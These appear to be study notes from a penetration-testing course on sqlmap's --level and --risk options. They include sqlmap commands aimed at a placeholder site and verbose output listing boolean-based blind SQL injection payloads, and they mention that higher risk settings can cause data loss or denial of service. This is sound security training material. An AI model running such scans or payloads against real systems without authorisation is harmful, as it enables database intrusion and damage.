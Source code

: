 ## Level/Risk

- `--level` - 1-5, default 1

  - extends both vectors and boundaries being used, based on their expectancy of success (lower the expectancy, higher the level)

- `--risk` - 1-3, default 1

  - extends the used vector set based on their risk of causing problems at the target side (i.e - risk of database entry loss or DOS)

- ?? risk=3 -> contains OR operation

- best way to check for differnences between used boundaries and payloads for different values of --level and --risk is the usage of -v option to 3

```sh
Buggunterhac@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3 --level=5

...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

```sh
Buggunterhac@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

```sh
Buggunterhac@htb[/htb]$ sqlmap -u www.example.com/?id=1
...SNIP...
[14:42:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
...SNIP...
```

